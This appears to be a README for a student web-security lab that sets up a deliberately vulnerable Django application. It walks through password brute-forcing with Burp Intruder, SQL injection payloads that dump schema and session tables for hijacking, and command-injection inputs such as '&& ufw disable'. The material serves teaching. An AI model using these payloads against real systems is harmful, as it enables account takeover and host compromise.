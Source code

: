 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ sudo cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## 4.7 Password Guessing
1. Open Burp Suit in kali-destop
2. Try to guess username and password in target web application
3. Check a HTTP history in Burp Suit
4. Send HTTP Response that have a verify icon to Intruder
5. Select a username or password to bruce force guessing
6. Add payload with seclists (lists of word guessing)
```bash
$ sudo apt install seclists
```
7. Observe and select a differ output to use as a password

## 7.2 SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## 7.4 Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```input
200 && echo $USER
```
```input
302 && systemctl list-units --type=service
```
```input
404 && ufw disable
```

## Group Members
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น
